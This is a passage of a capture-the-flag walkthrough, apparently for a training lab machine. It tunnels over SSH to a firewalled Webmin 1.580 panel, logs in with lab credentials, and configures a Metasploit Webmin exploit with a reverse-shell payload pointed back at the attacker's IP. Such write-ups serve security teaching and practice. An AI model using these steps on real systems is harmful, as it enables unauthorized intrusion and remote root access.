 We can see that a service running on port 10000 is blocked via a firewall rule from the outside (we can see this from the IPtable list). However, Using an SSH Tunnel we can expose the port to us (locally)!

From our local machine, run `ssh -L 10000:localhost:10000 agent@10.10.143.18`

We will open a new terminal and run the command.

<p align="center"> <img src="https://i.imgur.com/XU2mvIZ.png" height="90%" width="90%" alt=""/>

Once complete, in your browser type "localhost:10000" and you can access the newly-exposed webserver.

<p align="center"> <img src="https://i.imgur.com/cyJCIrI.png" height="90%" width="90%" alt=""/>

Question 2: What is the name of the exposed CMS?

`Webmin`

#

# Question 3

We will now use agent47:videogamer124 to login to the webpage.

After logging into the webpage. We can see the CMS Version.

<p align="center"> <img src="https://i.imgur.com/IojtiVK.png" height="90%" width="90%" alt=""/>

Question 3: What is the CMS version?

`1.580`

#

# Privilege Escalation with Metasploit

Using the CMS dashboard version, use Metasploit to find a payload to execute against the machine.

We will first open Metasploit with `msfconsole` command > `search webmin`.

<p align="center"> <img src="https://i.imgur.com/Bhq4vJX.png" height="90%" width="90%" alt=""/>

We will use the option 0 and show the options for the exploits.

- `use 0` > `show options`

<p align="center"> <img src="https://i.imgur.com/s69cxej.png" height="90%" width="90%" alt=""/>

We will set the all the required fields:

- set PAYLOAD cmd/unix/reverse
- set PASSWORD videogamer124
- set RHOSTS 127.0.0.1
- set RPORT 10000
- set SSL false
- set USERNAME agent47
- set LHOST 10.6.106.187 [your own IP]
- set LPORT 5555
